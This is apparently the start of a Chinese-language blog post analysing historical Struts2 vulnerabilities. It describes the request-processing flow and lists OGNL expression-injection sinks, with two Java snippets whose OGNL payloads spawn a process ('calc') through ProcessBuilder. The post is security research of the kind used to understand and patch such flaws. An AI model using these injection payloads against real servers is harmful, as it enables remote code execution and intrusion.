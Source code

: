 ```yaml
---
typora-root-url: ../../../static
title: "Struts2历史漏洞分析"
date: 2021-06-15T17:07:36+08:00
draft: false
categories: ["security"]
---
```


## Struts2基本了解

Struts2的数据处理架构图下所示：

![image-20210812144853425](/media/image-20210812144853425.png)

一个简单的说明如下：

1. 客户端初始化一个指向servlet容器的请求。
2. 请求经过一系列的过滤器（ActionContextCleanUp、SiteMesh）
3. FilterDispatcher被调用，并询问ActionMapper来决定这个请求是否需要调用某个Action
4. ActionMapper决定要调用那一个Action,FilterDispatcher把请求交给ActionProxy。
5. ActionProxy通过Configurate Manager询问Struts配置文件，找到要调用的Action类
6. ActionProxy创建一个ActionInvocation实例
7. ActionInvocation实例使用命令模式来调用，回调Action的exeute方法
8. 一旦Action执行完毕，ActionInvocation负责根据Struts.xml的配置返回结果。

可以看到ActionInvocation回调Action之前，会经过一系列的拦截器，其中我们需要注意的一个拦截器就是： `com.opensymphony.xwork2.interceptor.ParametersInterceptor` 拦截器，这个拦截器中，会获取请求信息，并将这些信息存入Action中的 `OgnlValueStack` 中：

![image-20210812150631623](/media/image-20210812150631623.png)

后续JSP中的所有动态数据，都是从这个 `OgnlValueStack` 中取出来的，如下所示：

![image-20210812151531295](/media/image-20210812151531295.png)

## Ognl RCE Sink

- `Ognl.setValue` ;
- `Ognl.getValue` ;
- `Ognl.parseExpression() --> Ognl.getValue()/Ognl.setValue()` ；
- 先将恶意的Ognl表达式放入Ognl上下文中，然后再调用上下文中的恶意Ognl表达式来执行；

例如如下代码，均可造成Ognl表达式注入：

```java
/**
 * Ognl setValue() SSTI
 */
public static void sinkOne()throws Exception{
    String expression="((new java.lang.ProcessBuilder(new java.lang.String[]{\"calc\"})).start())(glassy)(asd)";
    OgnlContext context = new OgnlContext();
    Ognl.setValue(expression,context,"");
}

/**
 * Ognl getValue() SSTI
 */
public static void sinkTwo()throws Exception{
    String expression="(new java.lang.ProcessBuilder(new java.lang.String[]{\"calc\"})).start()";
    OgnlContext context = new OgnlContext();
    Ognl.getValue(expression,context,"");
}

```